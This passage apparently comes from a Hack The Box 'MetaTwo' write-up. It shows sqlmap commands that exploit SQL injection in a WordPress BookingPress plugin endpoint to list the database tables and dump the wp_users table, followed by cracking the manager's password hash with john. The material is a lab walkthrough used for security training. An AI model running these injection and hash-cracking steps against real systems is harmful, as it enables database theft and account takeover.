 ```bash
sqlmap -u "http://metapress.htb/wp-admin/admin-ajax.php" --method POST --data 'action=bookingpress_front_get_category_services&_wpnonce=574c0c8595&category_id=1&total_service=1' -p total_service --level=5 --risk=3 --dbs  --batch -D blog --tables
```

```nmap
[02:37:23] [INFO] fetching tables for database: 'blog'
Database: blog
[27 tables]
---snippet --------------------------------
             |
| wp_term_taxonomy                     |
| wp_termmeta                          |
| wp_terms                             |
| wp_usermeta                          |
| wp_users                             |
+--------------------------------------+

[02:37:24] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/metapress.htb'
[02:37:24] [WARNING] your sqlmap version is outdated

```

To read the contents of table wp_users, I ran the following command

```bash
sqlmap -u "http://metapress.htb/wp-admin/admin-ajax.php" --method POST --data 'action=bookingpress_front_get_category_services&_wpnonce=574c0c8595&category_id=1&total_service=1' -p total_service --level=5 --risk=3 --dbs  --batch -D blog  -T wp_users --dump 
```
And with that we had user's hashes

![Alt text](/assets/img/htb/MetaTwo/mt7.png)

## Cracking the hash

using the command `john --wordlist=/usr/share/wordlists/rockyou.txt hash `
I was able to crack the manager's hash
